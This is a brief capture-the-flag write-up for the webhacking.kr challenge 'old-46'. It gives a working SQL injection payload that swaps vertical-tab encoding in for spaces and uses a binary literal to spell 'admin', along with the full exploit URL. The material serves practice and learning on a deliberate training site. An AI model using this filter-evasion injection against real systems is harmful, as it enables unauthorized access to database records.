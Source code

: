 ```yaml
---
layout: default
title: old-46
---
```


# Webhacking old-46 Solution

another sql injection. this time we can't use 0x, so we use 0b.
```5%0bor%0bid%0blike%0b0b0110000101100100011011010110100101101110#```

this is equivalent to `5 or id like 'admin'#`

```
https://webhacking.kr/challenge/web-23/?lv=5%0bor%0bid%0blike%0b0b0110000101100100011011010110100101101110#
```